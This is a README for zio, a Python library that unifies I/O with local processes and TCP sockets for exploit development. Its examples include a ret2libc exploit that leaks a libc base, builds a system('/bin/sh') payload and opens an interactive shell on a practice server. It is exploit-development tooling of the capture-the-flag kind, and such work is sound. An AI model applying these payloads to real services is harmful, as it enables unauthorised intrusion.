 
# zio

[![Build Status](https://travis-ci.org/Shviderskiy/zio.png)](https://travis-ci.org/Shviderskiy/zio)

[zio] is an easy-to-use io library for pwning development, supporting an unified interface for local process pwning and TCP socket io.

The primary goal of [zio] is to provide unified io interface between process stdin/stdout and TCP socket io. So when you have done local pwning development, you only need to change the io target to pwn the remote server.

The following code illustrate the basic idea.

```python
from zio import *

if you_are_debugging_local_server_binary:
    io = zio('./buggy-server')            # used for local pwning development
elif you_are_pwning_remote_server:
    io = zio(('1.2.3.4', 1337))           # used to exploit remote service

io.write(your_awesome_ropchain_or_shellcode)
# hey, we got an interactive shell!
io.interact()
```

## License

[zio] use [SATA License](LICENSE.txt) (Star And Thank Author License), so you have to star this project before using. Read the [license](LICENSE.txt) carefully.

## Dependency

 - Linux or OSX
 - Python 2.6, 2.7
 - termcolor (optional, for color support)
    - $ pip install termcolor

## Installation

This is a single-file project so in most cases you can just download [zio.py](https://raw.githubusercontent.com/zTrix/zio/master/zio.py) and start using.

pip is also supported, so you can also install by running 

```bash
$ pip2 install termcolor # for color support, optional
$ pip2 install zio
```

## Examples
 
```python
from zio import *
io = zio('./buggy-server')
# io = zio((pwn.server, 1337))

for i in xrange(1337):
    io.writeline('add ' + str(i))
    io.read_until('>>')

io.write("add TFpdp1gL4Qu4aVCHUF6AY5Gs7WKCoTYzPv49QSa\ninfo " + "A" * 49 + "\nshow\n")
io.read_until('A' * 49)
libc_base = l32(io.read(4)) - 0x1a9960
libc_system = libc_base + 0x3ea70
libc_binsh = libc_base + 0x15fcbf
payload = 'A' * 64 + l32(libc_system) + 'JJJJ' + l32(libc_binsh)
io.write('info ' + payload + "\nshow\nexit\n")
io.read_until(">>")
# We've got a shell;-)
io.interact()
```

## Document

To be added... Please wait...

### about line break and carriage return

Just don't read '\n' or '\r', use `readline()` instead

## Thanks (Also references)

 - [pexpect](https://github.com/pexpect/pexpect) I borrowed a lot of code from here
 - [sh](https://github.com/amoffat/sh)
 - python subprocess module
 - TTY related
   - http://linux.die.net/man/3/cfmakeraw
   - http://marcocorvi.altervista.org/games/lkpe/tty/tty.htm
   - http://www.linusakesson.net/programming/tty/


[zio]:https://github.com/zTrix/zio
